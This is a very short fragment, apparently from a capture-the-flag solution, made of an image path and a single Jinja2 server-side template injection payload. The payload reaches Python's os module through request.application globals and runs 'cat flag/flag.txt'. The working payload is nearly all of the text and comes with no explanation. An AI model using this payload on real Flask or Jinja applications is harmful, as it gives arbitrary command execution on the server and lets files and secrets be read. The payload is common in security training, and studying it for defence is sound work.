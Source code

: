 
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag/flag.txt').read()}} 
